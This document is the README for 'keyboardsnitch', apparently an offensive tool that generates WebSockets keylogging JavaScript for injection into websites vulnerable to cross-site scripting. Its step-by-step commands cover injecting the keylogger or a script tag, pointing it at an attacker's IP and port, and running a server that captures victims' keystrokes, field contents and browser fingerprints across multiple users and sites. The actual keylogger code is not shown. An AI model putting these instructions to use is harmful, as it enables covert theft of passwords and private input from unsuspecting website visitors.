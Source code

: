 #keyboardsnitch

An easy to use __WebSockets__ keylogger for injecting into pages vulnerable to XSS. Fast, reliable, and deadly accurate.

#Key Features

- Easily generate keylogging Javascript code to inject into web apps vulnerable to XSS
- Easily generate script tags linking to keylogging Javascript code to inject into web apps vulnerable to XSS. Easily host keylogger without additional middleware such as __nginx__ or __apache__.
- Smart realtime keylogging shows you exactly where the user is typing at any given moment
- Smart realtime keylogging shows you the exact contents of every text field that the user is viewing at any given moment
- Fully grepable output
- Able to distinguish between keystrokes coming from multiple users and web apps
- Capable of fingerprinting users' browsers
- Interactive Mode included

#Setup

Dependencies can be installed by running:

	pip install -r pip.req

#Usage Instructions

##Step 1 - Inject link to WebSockets source into target page

Run __keyboardsnitch__ with the --ws-source flag to generate a link to the __WebSockets__ source code. 

	python keyboardsnitch.py --ws-source

Copy the script tag into your clipboard and inject into the vulnerable web page. Depending on the nature of the XSS vulnerability you are exploiting, you may have to modify this script tag.

##Step 2 - Inject keylogger into target page

__keyboardsnitch__ provides two methods of injecting its keylogging JavaScript code. You can choose to inject the keylogging JavaScript code directly into the target page, or you can inject a script tag that links to the JavaScript code hosted externally.

###Option 1 - Inject Raw Source Code

To generate a keylogger that can be injected directly into the target page, use the following command:

	# substitute YOUR_IP with your ip address
	# substitute LISTEN_PORT with the port you want keyboardsnitch to listen on
	python keyboardsnitch.py --inject-code --lhost YOUR_IP --lport LISTEN_PORT

__keyboardsnitch__ will automatically modify the keylogger's source code to include your ip/domain and port number.

Example:
	
	python keyboardsnitch.py --inject-code --lhost 123.123.123.1 --lport 80

###Option 2 - Inject Script Tag

Should you want to inject a script tag instead of raw source code, __keyboardsnitch__ makes it easy to do that too. __keyboardsnitch__ can serve the keylogger as a JavaScript file without any additional configuration.

To generate a script tag linking to the keylogger, use the following command:

	# substitute YOUR_IP with your ip address
	# substitute LISTEN_PORT with the port you want keyboardsnitch to listen on
	python keyboardsnitch.py --inject-tag --lhost YOUR_IP --lport LISTEN_PORT

As with the __WebSockets__ script tag, the generated script tag may require additional configuration or modification.

Example:

	python keyboardsnitch.py --inject-tag --lhost 123.123.123.1 --lport 80


##Step 3 - Run Server and Log Keystrokes

Once the keylogger has been injected into the target web page, we start __keyboardsnitch__'s server component to start logging keystrokes.

	# substitute YOUR_IP with your ip address
	# substitute LISTEN_PORT with the port you want keyboardsnitch to listen on
	python keyboardsnitch.py --lhost YOUR_IP --lport LISTEN_PORT

When a user begins typing into a text field on the target web page, the contents of that text field will be shown in real time. Additionally, information about the text field is displayed so that you can identify what is being typed where.


###Addtional Display Options - Quick Reference

If you are targeting a page visited by multiple users, use this command:

	# substitute YOUR_IP with your ip address
	# substitute LISTEN_PORT with the port you want keyboardsnitch to listen on
	python keyboardsnitch.py --clients --lhost YOUR_IP --lport LISTEN_PORT

If you are injecting the keylogger into multiple pages, use this command:

	# substitute YOUR_IP with your ip address
	# substitute LISTEN_PORT with the port you want keyboardsnitch to listen on
	python keyboardsnitch.py --hosts --lhost YOUR_IP --lport LISTEN_PORT

If you are injecting the keylogger into multiple pages and expect those pages to be visited by multiple users, use this command:

	# substitute YOUR_IP with your ip address
	# substitute LISTEN_PORT with the port you want keyboardsnitch to listen on
	python keyboardsnitch.py --clients --hosts --lhost YOUR_IP --lport LISTEN_PORT

If you want information about users' web browsers, use the --user-agents flag along with whatever other flags you choose to include:

	# substitute YOUR_IP with your ip address
	# substitute LISTEN_PORT with the port you want keyboardsnitch to listen on
	python keyboardsnitch.py --user-agents --lhost YOUR_IP --lport LISTEN_PORT

#Interactive Mode

You can also run __keyboardsnitch__ in Interactive Mode by using the --wizard flag:

	python keyboardsnitch.py --wizard

Interactive Mode will walk you through steps 1, 2, 3 shown above.
